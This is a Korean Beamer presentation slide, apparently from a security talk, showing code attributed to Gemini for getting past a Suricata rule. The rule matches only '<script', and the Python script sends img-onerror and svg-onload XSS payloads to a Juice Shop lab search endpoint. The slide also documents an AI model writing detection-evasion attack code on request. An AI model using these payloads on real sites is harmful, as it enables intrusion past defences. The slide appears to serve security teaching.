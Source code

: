 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[fragile,shrink=5]{Gemini의 실제 답변 — 우회 코드}

Gemini에게 PoC와 규칙을 보여주고 ``이 룰을 우회해줘''라고 하면:

\vspace{0.2em}
\begin{block}{Gemini의 답변 (요약)}
{\scriptsize
``규칙이 \texttt{<script}만 찾으므로, 공격자는 \textbf{대체 태그}를 사용해 우회할 수 있습니다.
브라우저에서 자바스크립트를 실행하는 방법은 수백 가지입니다.''}
\end{block}

\vspace{0.2em}
\begin{lstlisting}[language=Python,title={\scriptsize Gemini가 만든 우회 코드}]
import requests, urllib.parse

TARGET = "http://juice-shop:3000"

# <script> 대신 <img> 태그의 onerror 사용
bypass_payload = '<img src=x onerror="alert(`xss`)">'
encoded = urllib.parse.quote(bypass_payload)

# 헤더에서도 <script> 대신 <svg> 사용
headers = {
    "User-Agent": "Mozilla/5.0 <svg/onload=alert(1)>",
    "Referer": f"{TARGET}/search?q={encoded}"
}

resp = requests.get(
    f"{TARGET}/rest/products/search?q={encoded}",
    headers=headers, timeout=10)
print(f"[+] Status: {resp.status_code}")
print("[+] Suricata SID 100003 우회 완료!")
\end{lstlisting}
\end{frame}
\end{document}
